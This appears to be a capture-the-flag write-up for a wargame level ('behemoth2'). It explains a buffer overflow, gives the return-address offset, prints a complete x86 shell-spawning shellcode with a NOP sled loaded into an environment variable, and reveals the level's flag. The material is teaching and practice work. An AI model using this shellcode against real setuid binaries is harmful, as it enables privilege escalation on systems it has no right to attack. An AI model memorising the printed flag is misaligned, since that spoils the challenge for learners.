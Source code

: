 ```yaml
---
layout: default
title: behemoth2
---
```


# behemoth level2 Solution

first we can see the challenge is based on buffer overflow, because the binary uses get.

let's use our script to find what is the position of the ret-address... we've found it's 71.
then, we will generate shellcode using the [shellcode.py](./general/shellcode.py) script

now we will load the shellcode into env variable:
```
export SHELLCODE=$(echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\xcd\x80\x89\xc3\x89\xd9\x6a\x46\x58\xcd\x80\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80")
```
we need to find the address of the env variable, using the [get_address.c](./general/get_address.c). notice to compile it with the `-m32` flag, for example: `gcc -m32 get_address.c -o get_address`

after finding the address of the env variable, in our case: `0xffffd511`, we need to insert it to the script that solves the challenge [level2.py]
```python
% scripts/level2.py
```



**Flag:** ***`IxPJbQtH8q`*** 
